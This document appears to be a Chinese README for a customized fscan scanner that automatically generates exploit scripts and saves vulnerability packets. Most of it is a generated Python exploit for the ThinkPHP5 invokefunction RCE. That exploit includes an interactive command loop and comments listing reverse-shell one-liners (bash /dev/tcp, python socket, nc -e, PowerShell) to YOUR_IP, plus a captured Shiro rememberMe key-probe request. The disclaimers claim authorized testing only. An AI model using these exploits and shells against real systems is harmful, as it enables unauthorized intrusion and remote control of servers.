




# fscan 二次开发

---

## 解析 POC 的响应内容并输出相关参数

### prompts



### 运行效果



---

## 根据识别到的 POC 提取和编写 exp 相关字段

### prompts



### 使用方法

```shell
# 启用 EXP 脚本生成（默认输出到 exp_templates 目录）
fscan -h 192.168.1.1 -expgen

# 自定义输出目录
fscan -h 192.168.1.1 -expgen -expdir ./my_exploits
```

### 运行效果


```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# ============================================================
# EXP 脚本模板 - 自动生成
# 漏洞名称: poc-yaml-thinkphp5-controller-rce
# 目标地址: http://10.3.4.71:80
# 漏洞类型: rce
# 生成时间: 2026-02-13 19:42:57
# ============================================================
#
# ⚠️  免责声明:
# 本脚本仅供授权安全测试使用,请勿用于未授权的渗透测试!
# 使用者需自行承担因违规使用而产生的一切法律责任。
#
# 参考链接:
#   - https://github.com/vulhub/vulhub/tree/master/thinkphp/5-rce
# ============================================================

import requests
import sys
import urllib3
from urllib.parse import urljoin

# 禁用SSL警告
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# ============================================================
# Payload 提示 - 远程命令执行 (RCE)
# ============================================================
# 可尝试以下类型的 payload:
#
# [Linux 命令执行]
#   - id                          # 查看当前用户信息
#   - whoami                      # 查看当前用户名
#   - cat /etc/passwd             # 读取系统用户信息
#   - uname -a                    # 查看系统内核版本
#   - ifconfig / ip addr          # 查看网络接口信息
#   - ls -la /                    # 列出根目录文件
#   - curl http://your-server/    # 测试网络出口(OOB)
#
# [Windows 命令执行]
#   - whoami                      # 查看当前用户名
#   - ipconfig                    # 查看网络配置
#   - dir c:\                     # 列出C盘根目录
#   - type c:\windows\win.ini     # 读取系统文件
#   - net user                    # 查看系统用户
#   - systeminfo                  # 查看系统信息
#
# [反弹Shell (需要提前监听)]
#   - bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1
#   - python -c 'import socket,os,pty;s=socket.socket();s.connect(("YOUR_IP",YOUR_PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
#   - nc -e /bin/bash YOUR_IP YOUR_PORT
#   - powershell -nop -c "$client=New-Object Net.Sockets.TCPClient('YOUR_IP',YOUR_PORT);..."
#
# ⚠️ 警告: 仅在授权范围内使用,切勿用于非法用途!
# ============================================================

# ============================================================
# 配置区域 - 请根据实际情况修改以下参数
# ============================================================

TARGET = "http://10.3.4.71:80"  # 目标地址

# ★★★ 请在此处填写您的命令执行 payload ★★★
PAYLOAD = "id"  # <-- 替换为你要执行的命令

# 请求头配置
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36",
}

# 代理配置 (可选, 用于配合 Burp Suite 调试)
PROXIES = {
    # "http": "http://127.0.0.1:8080",
    # "https": "http://127.0.0.1:8080",
}

TIMEOUT = 10  # 请求超时时间(秒)

# ============================================================
# 漏洞验证函数 (基于原始POC逻辑)
# ============================================================
def verify(target):
    """验证目标是否存在漏洞"""
    try:
        url = urljoin(target, "/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=printf&vars[1][]=a29hbHIgaXMg%25%25d2F0Y2hpbmcgeW91")
        resp = requests.get(url, headers=HEADERS, timeout=TIMEOUT, verify=False, proxies=PROXIES)
        if resp.status_code == 200:
            print(f"[+] 目标 {target} 可能存在漏洞!")
            print(f"[*] 状态码: {resp.status_code}")
            print(f"[*] 响应长度: {len(resp.text)}")
            return True
        else:
            print(f"[-] 目标 {target} 不存在漏洞 (状态码: {resp.status_code})")
            return False
    except requests.exceptions.RequestException as e:
        print(f"[-] 请求失败: {e}")
        return False

# ============================================================
# 漏洞利用函数
# ============================================================
def exploit(target, payload):
    """
    漏洞利用函数
    
    Args:
        target:  目标URL
        payload: 用户自定义的payload
    
    Returns:
        bool: 利用是否成功
    """
    print(f"[*] 正在利用漏洞...")
    print(f"[*] 目标: {target}")
    print(f"[*] Payload: {payload}")
    print()

    try:
        # 原始POC路径: /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=printf&vars[1][]=a29hbHIgaXMg%25%25d2F0Y2hpbmcgeW91
        # TODO: 将payload替换到命令执行的位置
        # 以下为框架代码,请根据实际漏洞修改请求
        vuln_path = "/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=printf&vars[1][]=a29hbHIgaXMg%25%25d2F0Y2hpbmcgeW91"  # 可能需要将payload嵌入此路径
        url = urljoin(target, vuln_path)
        resp = requests.get(url, headers=HEADERS, timeout=TIMEOUT, verify=False, proxies=PROXIES)
        print(f"[+] 响应状态码: {resp.status_code}")
        print(f"[+] 响应内容:\n{resp.text}")
        return True

    except requests.exceptions.RequestException as e:
        print(f"[-] 利用失败: {e}")
        return False

# ============================================================
# 交互式命令执行 (仅RCE类型漏洞可用)
# ============================================================
def interactive_shell(target):
    """交互式命令执行模式"""
    print("[*] 进入交互式命令执行模式 (输入 'exit' 退出)")
    print()
    while True:
        try:
            cmd = input("shell> ").strip()
            if cmd.lower() in ('exit', 'quit', 'q'):
                print("[*] 退出交互模式")
                break
            if not cmd:
                continue
            exploit(target, cmd)
        except KeyboardInterrupt:
            print("\n[*] 用户中断")
            break

# ============================================================
# 主函数
# ============================================================
if __name__ == "__main__":
    print("="*60)
    print("EXP: poc-yaml-thinkphp5-controller-rce")
    print("="*60)
    print()

    # 支持命令行参数指定目标
    target = sys.argv[1] if len(sys.argv) > 1 else TARGET
    payload = sys.argv[2] if len(sys.argv) > 2 else PAYLOAD

    if not target:
        print("用法: python3 {} <目标URL> [payload]".format(sys.argv[0]))
        sys.exit(1)

    # Step 1: 验证漏洞
    print("[*] Step 1: 验证漏洞是否存在...")
    if verify(target):
        print()
        # Step 2: 利用漏洞
        print("[*] Step 2: 执行漏洞利用...")
        exploit(target, payload)
        print()
        # Step 3: 可选 - 进入交互模式
        choice = input("\n[?] 是否进入交互式命令执行模式? (y/n): ").strip().lower()
        if choice == 'y':
            interactive_shell(target)
    else:
        print("[-] 目标不存在该漏洞, 利用终止")
        sys.exit(1)

```

---

## 将成功触发 poc 发送的 http 请求包和响应包保存在本地

### prompts


## 使用方法

```shell
# 启用数据包保存（默认保存到 ./packets/ 目录）
fscan -h 192.168.1.0/24 -save-pcapng

# 自定义保存目录
fscan -h 192.168.1.0/24 -save-pcapng -packetdir ./my_packets
```

### 运行效果



```
# 漏洞数据包记录
# Vulnerability Packet Capture
# ================================
# 漏洞名称 (Vuln Name): poc-yaml-shiro-key
# 目标 (Target): http://10.3.4.70:8080
# 时间 (Time): 2026-02-15 16:22:01
# 请求/响应数量 (Packet Count): 1
# ================================

>>>>>>>>>> HTTP REQUEST >>>>>>>>>>

GET / HTTP/1.1
Host: 10.3.4.70:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=HAONSRTLWTVLMAHORYQYJZHYVZFHJQKQ;rememberMe=VRCQDY60SXKaZYVE7Nh+96UHI2vjKUlLD3nGEBpSk/8v4W6kxdwRVb/KkOFwWfg7UpnD6AyzGhGRTu2L58ZwhLI37WfBscB2eJVlazifT0V20xwa/GPA6NQmKaHFQHyukg40UuGW7/gTx0vbgrT7FxGzsgJudXwKHzF8MyRRHQikT5RHdXRBc/8lVoekOlmM
Accept-Encoding: gzip


<<<<<<<<<< HTTP RESPONSE <<<<<<<<<<

HTTP/1.1 302 Found
Set-Cookie: JSESSIONID=A41957C9B82D83ECD8831CB1FC9B3315; Path=/; HttpOnly
Location: http://10.3.4.70:8080/login
Content-Length: 0
Date: Sun, 15 Feb 2026 08:22:00 GMT


```

